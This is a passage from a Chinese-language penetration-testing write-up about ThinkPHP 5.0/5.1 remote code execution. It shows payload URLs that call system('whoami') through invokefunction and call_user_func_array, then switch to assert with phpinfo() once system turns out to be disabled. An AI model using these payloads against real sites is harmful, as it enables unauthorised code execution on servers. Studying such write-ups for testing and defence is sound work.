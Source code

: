后面也去看了下另外一个站点，也是 ThinkPHP 框架搭的

靶场一是 ThinkPHP V5.1.38，靶场二是 ThinkPHP V5.0.5

尝试去用网上的 ThinkPHP RCE 的 EXP

```plain
http://www.weipan.com/index.php?
s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&va
rs[1][]=whoami
```

结果显示 system 函数由于安全原因被禁用了

[![](assets/1706145764-86a989e89d72403395a856c516770857.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122213521-16e6b726-b92b-1.png)

其实测到这个地方我感觉是有戏的，因为这里不是说不允许你去这么干

而是说你调用的 system 函数被禁用而已

这里我选择把 system 换成 assert，再尝试一下

```plain
http://www.weipan.com/index.php?
s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&va
rs[1][]=phpinfo()
```
